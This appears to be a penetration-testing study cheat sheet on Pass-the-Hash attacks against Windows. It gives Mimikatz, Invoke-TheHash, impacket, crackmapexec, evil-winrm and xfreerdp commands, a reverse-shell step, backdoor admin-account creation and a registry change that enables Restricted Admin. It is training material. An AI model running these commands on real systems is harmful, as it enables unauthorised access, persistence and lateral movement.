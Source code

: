 - [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication.
- The traditional pass-the-hash technique involves reusing a hash through the NTLMv1/NTLMv2 protocol, which doesn't touch Kerberos at all.
---
## PtH from Windows
- PtH with [Mimikatz](https://github.com/gentilkiwi).
	``` powershell
	c:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<name> /rc4:<MTLM hash> /domain:<> /run:cmd.exe" exit
	```
	- `/rc4` or `/NTLM` - NTLM hash of the user's password.
	- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, use a dot (.).
- PtH with [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash).
	- The tool can perform PtH with WMI and SMB through the .NET TCPClient.
	- Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol.
	- Admin priv not required on client-side, but the user and hash we use to authenticate need to have admin priv on the target.
	``` powershell
	PS> Import-Module .\Invoke-TheHash.psd1
	PS> Invoke-SMBExec -Target IP -Domain Domain -Username Name -Hash NTLM/NT:NTLM -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
	PS> Invoke-WMIExec -Target IP -Domain Domain -Username Name -Hash NTLM/NT:NTLM -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
	```
- We can also get a reverse shell connection in the target machine.
	1. Start a netcat listener on attack host `nc.exe -lvnp 8001`
	2. Create a rev shell payload using [revshells](https://www.revshells.com/), set `IP`, `PORT`, `PowerShell #3 (Base64)`.
	3. Utilize `Invoke-WMIExec` to execute the payload on the target machine
		``` powershell
		PS> Invoke-WMIExec -Target <IP/Hostname> -Domain <domain> -Username <name> -Hash <hash> -Command "The payload"
		```
## PtH from Linux
[Impacket](https://github.com/SecureAuthCorp/impacket) has several tools we can use for different operations.
- PtH with `impacket-psexec`
	``` bash
	$ impacket-psexec USER@IP -hashes :<hash>
	```
	- we can also use [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py).
- PtH with `crackmapexec`
	``` bash
	# Authenticate the leaked user creds against every host in the domain's subnet, or provide IP for one host
	crackmapexec smb 172.16.1.0/24 -u administrator -d <domain or .> -H <hash>
	# To perform the same actions against local administrator hash add --local-auth to the command.
	# To execute commands add `-x <command>` to the command.
	```
- PtH with `evil-winrm`
	``` bash
	$ evil-winrm -i <IP> -u Administrator -H <hash>
	# In case of using a domain account, include it, for example: administrator@domain
	```
- RDP 
	- PtH with `xfreerdp`
		``` bash
		xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
		```
  - `Restricted Admin Mode` is disabled by default, it should be enabled on the target host.
  <img src="https://academy.hackthebox.com/storage/modules/147/rdp_session-4.png" style="width:40%; height:40%;">

  - Enable it by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of `0`. 
      ``` cmd
      c:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
      ```

> [!Note]
> **UAC protection**:
> UAC (User Account Control) limits local users' ability to perform remote administration operations. 
> If the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` set to `0`, 
> it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks.
> If set to `1`, it allows the other local admins as well.
> 
> **Exception**:
> The registry key `FilterAdministratorToken` (disabled by default).
> If its value is `1`, the RID 500 account (even if it is renamed) is enrolled in UAC protection.
> This means that remote PTH will fail against the machine when using that account.
> 
> These settings are only for local administrative accounts.
> If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer.
